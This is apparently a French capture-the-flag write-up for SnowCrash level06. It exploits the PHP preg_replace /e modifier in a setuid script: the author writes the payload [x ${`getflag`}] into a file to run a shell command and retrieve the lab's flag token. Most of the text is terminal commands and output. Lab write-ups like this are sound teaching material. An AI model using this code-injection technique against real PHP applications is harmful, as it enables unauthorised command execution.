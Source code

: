 # 06 - PHP exploit: entrée utilisateur

- On se connecte en tant que level06.
```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```


- Un binaire ainsi qu'un script PHP sont présents, le binaire semble exécuter le script PHP.
```
level06@SnowCrash:~$ cat level06.php
```
```php
#!/usr/bin/php
<?php
function y($m) {
        $m = preg_replace("/\./", " x ", $m);
        $m = preg_replace("/@/", " y", $m);
        return $m;
}

function x($y, $z) {
        $a = file_get_contents($y);
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        $a = preg_replace("/\[/", "(", $a);
        $a = preg_replace("/\]/", ")", $a);
        return $a;
}

$r = x($argv[1], $argv[2]); print $r;
?>
```


- Le script effectue des appels à `preg_replace()` pour formater le contenu du fichier qui lui est donné en premier paramètre avant de l'afficher. La ligne qui nous intéresse est la suivante:
>`$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`


- Cette ligne indique que si le contenu du fichier commence par `[x ` et se termine par `]`, tout ce qui se trouve entre ces limites peut être exécuté en tant que code PHP (en raison du `/e`), du coup:
```
level06@SnowCrash:~$ echo "[x \${\`getflag\`}]" > /tmp/test
```

```
level06@SnowCrash:~$ cat /tmp/test
[x ${`getflag`}]
```

```
level06@SnowCrash:~$ ./level06 /tmp/test
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

```
level06@SnowCrash:~$ su level07
Password:wiok45aaoguiboiki2tuin6ub
level07@SnowCrash:~$
```